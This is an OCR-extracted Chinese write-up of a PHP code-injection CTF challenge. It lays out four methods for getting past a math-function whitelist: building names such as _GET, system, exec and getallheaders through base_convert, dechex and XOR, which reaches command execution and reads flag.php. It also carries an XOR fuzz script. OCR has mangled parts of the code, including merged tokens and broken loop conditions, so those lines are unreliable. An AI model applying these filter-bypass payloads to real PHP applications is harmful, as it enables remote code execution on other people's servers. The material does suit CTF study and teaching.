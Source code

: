 ​
echodechex(1598506324);
echohex2bin('5f474554');
# 逆向最终得到 _GET
白名单中有dechex()、hexdec()函数，但是没有hex2bin()、bin2hex()函数，但是我们可以使用base_convert()函数构造任意小写函数。

串起来构造

echobase_convert(37907361743,10,36)dechex(1598506324)
可以用{}代替[]构造

$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=ls
# 得到 _GETflag.php index.php

$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi{abs})($$pi{acos})&abs=system&acos=catflag.php
# 得到 flag
方法2

可以构造getallheaders()传参，此是小写的，可以直接用base_convert转换。

狗早：

$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
分析：

base_convert(696468,10,36) =exec
$pi(8768397090111664438,10,30) =getallheaders
exec(getallheaders(){1})
操作xx和yy，中间用逗号隔开，echo都能输出
echoxx,yy
getallheaders— Fetch all HTTP request headers

D91pVK.md.png

经测试，这里列目录的时候只能显示一个文件名，故可以base64编码后输出。

1 lsbase64
方法3

直接cat f

exec('hex2bin(dechex(109270211257898))') = exec('cat f')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
system('cat'.dechex(16)^asinh^pi) = system('cat ')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
方法4

前面都是利用白名单的数学函数将数字转成字符串，其实也可以异或构造这是fuzz脚本

php
$payload=['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k=sizeof($payload);$k++){
for($i=0;$i9; $i++){
for($j=0;$j=9;$j++){
$exp=$payload[$k] ^$i.$j;
echo($payload[$k].^$i$j.==$exp);
echobr ;
}
}
}